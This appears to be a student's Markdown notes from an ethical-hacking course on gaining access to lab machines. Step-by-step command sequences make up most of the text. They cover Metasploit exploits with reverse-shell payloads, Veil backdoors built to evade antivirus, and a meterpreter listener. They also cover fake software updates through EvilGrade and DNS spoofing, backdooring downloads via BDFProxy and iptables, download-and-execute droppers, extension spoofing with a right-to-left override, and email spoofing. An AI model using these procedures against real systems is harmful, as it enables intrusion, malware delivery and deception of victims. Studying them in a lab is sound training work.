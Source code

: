 # Gaining Access

Three main approaches:

1. [Server Side](#server-side)

2. [Client Side](#client-side)

3. [Social Engineering](#social-engineering)

## Server Side

---

* To check if the Metasploitable machine and the Kali machine are on the same network, we can do a ping test:

```shell
ping 10.0.2.5
```

* zenmap can be used to gather more information about the server, as we have the IP now. Based on the vulnerable ports and services, we can discover more attacks on it.

* For each open port or service, we can Google them followed by the term 'exploit', and that will give us an idea about the vulnerabilities.

* Metasploit framework can be used to develop and launch exploits.

* Example of backdoor vulnerability:

```shell
msfconsole #launches Metasploit

use exploit/unix/ftp/vsftpd_234_backdoor #use particular exploit

show options

set RHOSTS 10.0.2.5

exploit #launch exploit
```

* Example of payload execution:

```shell
msfconsole

use exploit exploit/multi/samba/usermap_script

show options

set RHOSTS 10.0.2.5

show payloads #shows all possible payloads for particular exploit

#bind payloads open up a port on the target computer, and we can connect to it
#reverse payloads open up a port on our machine, and the target computer can connect to it
#reverse payloads can bypass firewalls

set PAYLOAD cmd/unix/reverse_netcat #sets payload

show options

set LHOST 10.0.2.4

exploit
```

## Client Side

---

* These attacks require user interaction and should be attempted if server-side attacks do not work.

* We can use Veil framework to generate backdoors which cannot be detected by anti-virus softwares.

```shell
veil

use 1 #uses evasion

list #shows list of payloads

use 15 #uses particular payload

set LHOST 10.0.2.7 #value as our IP

set LPORT 8080

set PROCESSORS 1 #making the payload unique by setting properties values

set SLEEP 5

generate #generate the backdoor
```

* Once backdoor is generated, we can check if it is detected by antivirus programs.

* To listen for incoming connections:

```shell
msfconsole

use exploit/multi/handler #module for listening incoming connections

show options

set PAYLOAD windows/meterpreter/reverse_https #set payload option

set LHOST 10.0.2.7 #set lhost as ip address

set LPORT 8080

exploit
```

* To check if backdoor works, we first need to move the backdoor file to the location '/var/www/html'.Then, after starting the Kali web server, we can use the Windows VM to visit the specific directory of the backdoor file.

* We can use EvilGrade to launch a fake upgrade in order to make the target download the backdoor:

```shell
cd /opt/evilgrade

./evilgrade

show modules

configure dap #this selects the module 'dap'

show options

set agent /var/www/html/evil-files/rev_https_8080.exe #path of backdoor file

set endsite www.speedbit.com

start

#Now we would want to be the MITM, so in a separate terminal we can use spoof.cap and DNS spoofing; note that metasploit is still listening for incoming connections in the background

bettercap -iface eth0 -caplet spoof.cap

set dns.spoof.all true

set dns.spoof.domains update.speedbit.com

dns.spoof on

#Now we can check the software(DAP) for updates on the Windows machine, and get access to it remotely
```

* Another method for downloading backdoors is using a software called BDFProxy:

```shell
#Navigate to /opt/BDFProxy, and configure bdfproxy.cfg according to target

cd /opt/BDFProxy/

./bdf_proxy.py

#Now, become the MITM
bettercap -iface eth0 -caplet spoof.cap

#Apply a rule for packets
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080

#run resource file given by BDFProxy
msfconsole --resource /opt/BDFProxy/bdfproxy_msf_resource.rc

#Now, we can wait for target computer to download something like an .exe file, so that it can get backdoored during the process
```

## Social Engineering

---

* These attacks rely on gathering info about the user, and building a strategy based on the info gathered.

* Maltego can be used as an information gathering tool. Based on the info gathered, strategies can be built for the target.

* We can combine backdoor with any file by using a [download-and-execute payload](../autoit-download-and-execute.txt). As this sample script is written in AutoIt, we have to change extension from .txt to .au3. Then, it can be compiled into a .exe file, and moved to the directory /var/www/html/. At the same time, we have to listen for incoming connections using Metasploit.

* Using a right-to-left override character, we can spoof the file extension (from .exe to .jpg, for example).

* Email spoofing can be done by using a SMTP server, or using PHP mail functions coupled with a web hosting plan.

---
